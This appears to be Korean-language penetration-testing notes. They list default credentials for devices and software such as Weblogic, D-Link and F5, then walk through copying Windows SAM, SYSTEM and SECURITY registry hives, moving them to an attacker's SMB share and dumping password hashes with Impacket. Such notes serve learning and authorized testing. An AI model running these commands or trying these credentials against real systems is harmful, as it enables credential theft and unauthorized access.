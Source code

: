 ```

[DefaultCreds-Cheat-Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)
| **Product/Vendor** | **Username** | **Password**                 |
| ------------------ | ------------ | ---------------------------- |
| Zyxel (ssh)        | zyfwp        | PrOw!aN_fXp                  |
| APC UPS (web)      | apc          | apc                          |
| Weblogic (web)     | system       | manager                      |
| Weblogic (web)     | system       | manager                      |
| Weblogic (web)     | weblogic     | weblogic1                    |
| Weblogic (web)     | WEBLOGIC     | WEBLOGIC                     |
| Weblogic (web)     | PUBLIC       | PUBLIC                       |
| Weblogic (web)     | EXAMPLES     | EXAMPLES                     |
| Weblogic (web)     | weblogic     | weblogic                     |
| Weblogic (web)     | system       | password                     |
| Weblogic (web)     | weblogic     | welcome(1)                   |
| Weblogic (web)     | system       | welcome(1)                   |
| Weblogic (web)     | operator     | weblogic                     |
| Weblogic (web)     | operator     | password                     |
| Weblogic (web)     | system       | Passw0rd                     |
| Weblogic (web)     | monitor      | password                     |
| Kanboard (web)     | admin        | admin                        |
| Vectr (web)        | admin        | 11_ThisIsTheFirstPassword_11 |
| Caldera (web)      | admin        | admin                        |
| Dlink (web)        | admin        | admin                        |
| Dlink (web)        | 1234         | 1234                         |
| Dlink (web)        | root         | 12345                        |
| Dlink (web)        | root         | root                         |
| JioFiber           | admin        | jiocentrum                   |
| GigaFiber          | admin        | jiocentrum                   |
| Kali linux (OS)    | kali         | kali                         |
| F5                 | admin        | admin                        |
| F5                 | root         | default                      |
| F5                 | support      |                              |
| ...                | ...          | ...                          |
|                    |              |                              |

[Default Router Credentials](https://www.softwaretestinghelp.com/default-router-username-and-password-list/)

<br/><br/>
# 5. Extracting Passwords from Windows Systems

## Attacking SAM, SYSTEM, and SECURITY
#### reg.exe로 Registry Hives 복사
```
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

#### Impacket's smbserver.py로 공유 생성
- smb2support 옵션(최신 버전의 SMB가 지원), 공유 이름(`CompData`), 저장할 공격 호스트의 디렉토리(`/home/ltnbob/Documents`) 지정<br/>
```$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/```

- move 명령으로 Hive 복사본 이동
```
C:\> move sam.save \\<SMB Share IP>\CompData
C:\> move security.save \\<SMB Share IP>\CompData
C:\> move system.save \\<SMB Share IP>\CompData
```

#### Impacket's secretsdump.py로 Dumping Hashes
```secretsdump.py -sam sam.save -security security.save -system system.save LOCAL```<br/>
```